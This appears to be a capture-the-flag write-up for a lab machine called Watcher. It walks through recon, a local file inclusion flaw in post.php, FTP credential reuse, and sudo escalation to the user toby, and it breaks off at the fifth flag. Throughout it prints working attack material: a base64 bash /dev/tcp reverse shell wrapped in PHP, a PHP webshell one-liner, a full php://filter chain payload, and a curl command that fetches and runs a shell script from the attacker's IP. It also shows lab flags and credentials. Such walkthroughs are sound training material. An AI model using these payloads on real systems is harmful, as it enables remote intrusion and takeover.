## TL;DR


### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 53:61:7f:91:8a:29:d0:e0:30:89:09:83:a7:cc:de:ab (RSA)
|   256 dc:db:42:61:9d:d9:c0:ed:2d:f8:fb:e1:0a:35:0b:c7 (ECDSA)
|_  256 ea:9f:7d:99:1c:39:79:84:bc:df:0f:ed:e1:e8:ed:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Corkplacemats
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Jekyll v4.1.1
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

First I add `watcher.thm` to my `/etc/hosts`.

### Flag 1 using robots.txt

We start with `ffuf` to find hidden endpoints:
```bash
──(agonen㉿kali)-[~/thm/Watcher]
└─$ ffuf -u "http://watcher.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt                                 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://watcher.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3805ms]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3805ms]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 4808ms]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 97ms]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 106ms]
index.php               [Status: 200, Size: 4826, Words: 1154, Lines: 135, Duration: 110ms]
robots.txt              [Status: 200, Size: 69, Words: 4, Lines: 4, Duration: 103ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 97ms]
```

Let's inspect `robots.txt`



```bash
┌──(agonen㉿kali)-[~/thm/Watcher]
└─$ curl http://watcher.thm/robots.txt
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

We can grab flag1:

```bash
┌──(agonen㉿kali)-[~/thm/Watcher]
└─$ curl http://watcher.thm/flag_1.txt
FLAG{robots_dot_text_what_is_next}
```



### Flag 2 using LFI 

Next, we try to read `/secret_file_do_not_read.txt`, however, we get `403` permission denied



We can go to the root page, and click on the photos, which leads us to this page:



The url is `http://watcher.thm/post.php?post=round.php`, it looks like it's vulnerable to `LFI`, let's give instead of `round.php`, `./secret_file_do_not_read.txt`, to read the secret file.

```bash
http://watcher.thm/post.php?post=./secret_file_do_not_read.txt
```



This is what we get:
> Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. 
Will ---------- ftpuser:givemefiles777 

Okay, let's login with these credentials to the ftp server:
```bash
ftpuser:givemefiles777
```

Simple login works, we can grab flag2.

```bash
┌──(agonen㉿kali)-[~/thm/Watcher]
└─$ ftp ftpuser@watcher.thm                                                                  
Connected to watcher.thm.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||40385|)
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt
226 Directory send OK.
ftp> get flag_2.txt
local: flag_2.txt remote: flag_2.txt
229 Entering Extended Passive Mode (|||47705|)
150 Opening BINARY mode data connection for flag_2.txt (21 bytes).
100% |****************************************************************************************************|    21      186.43 KiB/s    00:00 ETA
226 Transfer complete.
21 bytes received in 00:00 (0.20 KiB/s)
ftp> cd files
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||47523|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> exit
221 Goodbye.
```



So we got the second flag
```bash
┌──(agonen㉿kali)-[~/thm/Watcher]
└─$ cat flag_2.txt                                     
FLAG{ftp_you_and_me}
```

### Flag 3 using LFI to RCE - Path 1

Remember this message
> Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. 
Will ---------- ftpuser:givemefiles777 

It says the location is `/home/ftpuser/ftp/files`, and the credentials for login are:
```bash
ftpuser:givemefiles777
```

So, we can upload php reverse shell, and then access the file via the `LFI` vulnerability.

First we'll create the reverse shell, I used the payload from `penelope`, for the reverse shell itself:
```bash
echo -e '<?php system("printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash"); ?>' > revshell.php
```

Next, we login to the ftp service, and upload `revshell.php` to files dir:
```bash
┌──(agonen㉿kali)-[~/thm/Watcher]                                                                                                                            
└─$ ftp ftpuser@watcher.thm                                                                                                                                  
Connected to watcher.thm.                                                                                                                                    
220 (vsFTPd 3.0.5)                                                                                                                                           
331 Please specify the password.                                                                                                                             
Password:                                                                                                                                                    
230 Login successful.                                                                                                                                        
Remote system type is UNIX.                                                                                                                                  
Using binary mode to transfer files.                                                                                                                         
ftp> cd files                                                                                                                                                
250 Directory successfully changed.                                                                                                                          
ftp> put revshell.php 
local: revshell.php remote: revshell.php
229 Entering Extended Passive Mode (|||41852|)
150 Ok to send data.
100% |****************************************************************************************************************|    99        1.68 MiB/s    00:00 ETA
226 Transfer complete.
99 bytes sent in 00:03 (0.03 KiB/s)
```

We can upload to the dir `files` because we have `w` permissions on the dir:


\


Now, we just need to access `http://watcher.thm/post.php?post=../../../../../../../../home/ftpuser/ftp/files/revshell.php`, and get the reverse shell in `penelope`



and flag 3 is:
```bash
www-data@ip-10-10-51-12:/var/www/html$ cat more_secrets_a9f10a/flag_3.txt 
FLAG{lfi_what_a_guy}
```

### Flag 3 using LFI ro RCE - Path 2

We can use [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) to get RCE, as shown here [https://avishaigonen123.github.io/CTF_writeups/webhacking.kr/old-25%20RevengE.html](https://avishaigonen123.github.io/CTF_writeups/webhacking.kr/old-25%20RevengE.html).

So, first we'll clone the repository. 
Then, we want short reverse shell, in our case:
```php
<?php echo `$_GET[0]` ?>
```

Now, just create the payload, and send it with param `0` contains the os command.

```bash
┌──(agonen㉿kali)-[~/thm/Watcher/php_filter_chain_generator]
└─$ python php_filter_chain_generator.py --chain '<?php echo `$_GET[0]` ?>'
[+] The following gadget chain will generate the following code : <?php echo `$_GET[0]` ?> (base64 value: PD9waHAgZWNobyBgJF9HRVRbMF1gID8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```



As we can see, it is working, we managed to execute the command `id`.



Next, we can create local http server with `revshell.sh` contains `penelope` payload, and execute the commands:
```bash
curl http://10.9.2.147:8081/revshell.sh -o /tmp/revshell.sh
chmod +x /tmp/revshell.sh
/tmp/revshell.sh
```

Of course we need to Url encode this, so the payload will be (as put into burp suite)
```bash
&0=curl+http://10.9.2.147:8081/revshell.sh+-o+/tmp/revshell.sh%0achmod+%2bx+/tmp/revshell.sh%0a/tmp/revshell.sh
```



and get flag3:
```bash
www-data@ip-10-10-41-73:/var/www/html$ cat more_secrets_a9f10a/flag_3.txt 
FLAG{lfi_what_a_guy}
```

### Flag 4 using sudo -u toby

We can see the 4th flag is inside `toby`'s home dir, so it means we need to own his user.



The file `/home/toby/note.txt` is readable, we can read it:
```bash
www-data@ip-10-10-51-12:/var/www/html$ cat /home/toby/note.txt 
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

We can also the folder `jobs`, with the script `cow.sh` inside:
```bash
www-data@ip-10-10-51-12:/home/toby$ cat jobs/cow.sh 
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```

This is the image, lovely.


when checking the `crontab`, we can find this job:
```bash
www-data@ip-10-10-51-12:/home/toby$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```

So, it executes `/home/toby/jobs/cow.sh` as user mat.

When we checks our `sudo` privileges, we can find very interesting things.
```bash
www-data@ip-10-10-51-12:/home/toby$ sudo -l
Matching Defaults entries for www-data on ip-10-10-51-12:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-51-12:
    (toby) NOPASSWD: ALL
```

So, we can `sudo` to toby without any password, let's try this, execute `id` command:
```bash
sudo -u toby id
```



Okay, now let's get shell using `/bin/bash`:
```bash
www-data@ip-10-10-51-12:/home/toby$ sudo -u toby /bin/bash
toby@ip-10-10-51-12:~$ id
uid=1003(toby) gid=1003(toby) groups=1003(toby)
```


and grab flag 4:

```bash
toby@ip-10-10-51-12:~$ cat flag_4.txt 
FLAG{chad_lifestyle}
```

### Flag 5 using cronjob executed by mat managed by toby

Remember the cronjob from last section, we manage the job, but it is being executed using user `mat`.

